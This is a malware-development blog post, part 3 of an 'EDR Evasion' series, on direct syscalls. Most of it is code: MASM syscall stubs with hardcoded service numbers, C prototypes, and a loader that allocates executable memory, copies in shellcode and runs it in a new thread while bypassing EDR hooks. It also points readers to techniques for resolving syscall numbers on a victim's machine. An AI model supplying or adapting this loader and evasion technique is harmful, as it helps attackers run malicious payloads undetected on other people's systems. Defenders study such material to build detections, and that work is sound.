 ```yaml
---
title: "EDR Evasion 101 - Pt 3: Direct Syscall"
description: Demonstration of the use of direct syscalls to evade hooking carried out by EDR, in addition to its advantages and possible forms of improvement. 
author: Oblivion
date: 2024-04-21 11:33:00 +0800
categories: [Malware Development]
tags: ["Windows"]
pin: false
math: true
mermaid: true
---
```


This is a very easy way to evade hooking, because we simply perform the direct syscall of our code without needing to use the hooked API. A brief representation of how this technique works:

![img](../commons/direct_syscall/img1.png)

## How make this

Well, first we should know about the stub syscall, it looks like the following:

```
    mov r10, rcx
    mov eax, <SSN>
    syscall
    ret
```

The Service Syscall Number, known as SSN, is the identification number assigned to each syscall function. Now that we understand about the syscall stub and SSN, we can move on. To perform direct syscalls, it is necessary to have the stub in an .asm assembly code. In our C code, we use EXTERN_C to declare the function, informing the compiler that this function exists somewhere in the code. We then compile our C and .asm assembly codes to object files and finally link them. I will demonstrate the process, but first, let's learn how to find out the SSN of functions on our machine. The SSN varies depending on the machine version, which can be an obstacle to performing direct syscalls. I'll show you how to find the SSN of a role:

Opening x64dbg, go to C:\Windows\System32\ntdll.dll and attach it, then go to the "Symbols" tab and search for the function to be used.

![img](../commons/direct_syscall/img2.png)

which will take us to the syscall stub screen where we can see the NtAllocateVirtualMemory SSN equivalent to 18.

![img](../commons/direct_syscall/img3.png)

I will carry out the same process to find out the SSN of NtCreateThreadEx, I will create an .asm file to create the stub of the two functions, result below.

```
.code
    SysFuncAlloc PROC
        mov r10, rcx
        mov eax, 18h
        syscall
        ret
    SysFuncAlloc ENDP

    SysFuncThread PROC
        mov r10, rcx
        mov eax, 0C7h
        syscall
        ret
    SysFuncThread ENDP
end
```

Now I will create a C file as .h containing the function definition, note that the name has to be the same as defined in the .asm file.

```c
EXTERN_C NTSTATUS SysFuncAlloc(
  IN HANDLE           ProcessHandle,    
  IN OUT PVOID        *BaseAddress,    
  IN ULONG_PTR        ZeroBits,         
  IN OUT PSIZE_T      RegionSize,      
  IN ULONG            AllocationType,   
  IN ULONG            Protect           
);

EXTERN_C NTSTATUS SysFuncThread(
    OUT PHANDLE                 ThreadHandle,         
    IN 	ACCESS_MASK             DesiredAccess,        
    IN 	POBJECT_ATTRIBUTES      ObjectAttributes,     
    IN 	HANDLE                  ProcessHandle,        
    IN 	PVOID                   StartRoutine,        
    IN 	PVOID                   Argument,            
    IN 	ULONG                   CreateFlags,         
    IN 	SIZE_T                  ZeroBits,            
    IN 	SIZE_T                  StackSize,           
    IN 	SIZE_T                  MaximumStackSize,    
    IN 	PPS_ATTRIBUTE_LIST      AttributeList       
);
```

Now creating the main file where we will perform a simple injection using direct syscalls.

```c
LPVOID lpAllocationStart = NULL;
SIZE_T szshell = sizeof( shellcode );
HANDLE hProcess = GetCurrentProcess();
HANDLE hThread;

NTSTATUS status = SysFuncAlloc(hProcess, &lpAllocationStart, 0, &szshell, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)){
	printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[*] Allocated memory at 0x%p\n", lpAllocationStart);

memcpy(lpAllocationStart, shellcode, szshell);

NTSTATUS status2 = SysFuncThread(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, lpAllocationStart, NULL, NULL, NULL, NULL, NULL, NULL);
if (!NT_SUCCESS(status2)){
	printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[+] Thread Created\n");

WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);

return 0;
```

# References

You might ask, "How would I find out the SSN of the victim's machine?" For that, I recommend reading about the concept of [HellsGate](https://redops.at/en/blog/exploring-hells-gate). It dynamically resolves the SSN and allows you to make direct calls efficiently.

# Disadvantages of Direct Syscall

Direct syscalls are easily detected because, in the Windows operating system, it is uncommon for code outside of ntdll.dll to perform syscalls. Therefore, simply search for the opcode of the "syscall" instruction, among other available detection methods such kernel routines and etc.

To avoid this, you can use Indirect Syscall, which is to execute the syscall directly from ntdll, for more information, you can use [HellsHall](https://github.com/Maldev-Academy/HellHall).


